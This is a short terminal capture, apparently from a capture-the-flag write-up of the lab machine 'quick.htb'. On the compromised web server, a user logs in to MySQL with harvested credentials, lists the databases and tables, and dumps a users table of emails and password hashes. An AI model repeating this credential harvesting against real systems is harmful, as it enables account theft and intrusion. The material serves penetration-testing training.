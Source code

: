 ```bash
sam@quick:/var/www/html$ mysql -u db_adm -p
mysql -u db_adm -p
Enter password: db_p4ss

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 20
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| quick              |
| sys                |
+--------------------+
5 rows in set (0.01 sec)
mysql> use quick;
use quick;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)

mysql> select * from users;
select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> 
```
